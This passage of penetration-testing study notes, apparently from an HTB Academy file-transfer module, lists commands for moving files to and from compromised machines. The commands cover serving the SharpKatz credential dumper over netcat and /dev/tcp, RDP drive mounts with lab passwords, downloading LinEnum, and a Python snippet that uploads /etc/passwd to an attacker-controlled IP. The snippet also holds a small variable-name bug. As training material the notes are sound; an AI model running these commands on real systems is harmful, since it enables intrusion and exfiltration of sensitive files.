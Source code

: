 - `sudo nc -l -p 443 -q 0 < SharpKatz.exe` nc - Sending File as Input to nc
- `sudo ncat -l -p 443 --send-only < SharpKatz.exe` same wit ncat
- `cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe` Compromised Machine Connecting to Netcat Using /dev/tcp

## RDP

- `rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'` Mounting a Linux Folder Using rdesktop
- `xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer` Mounting a Linux Folder Using xfreerdp
- To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session
- Alternatively, from Windows, the native [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) remote desktop client can be used

## Transfering Files with code

### Python

- `python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'` python 2
- `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'` python 3

#### Upload operations

- [Requests module](https://pypi.org/project/requests/)
- [urllib](https://docs.python.org/3/library/urllib.request.html)
- [Upload server module](https://github.com/Densaugeo/uploadserver)

- `python3 -m uploadserver` Starting the Python uploadserver Module
- `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'` uploading a file

> Here are more details about the onliner to upload a file

```python
# To use the requests function, we need to import the module first.
import requests 
# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"
# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")
# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

> Good advice by HTB Acsademy: We can do the same with any other programming language. A good practice is picking one and trying to build an upload program.

### PHP
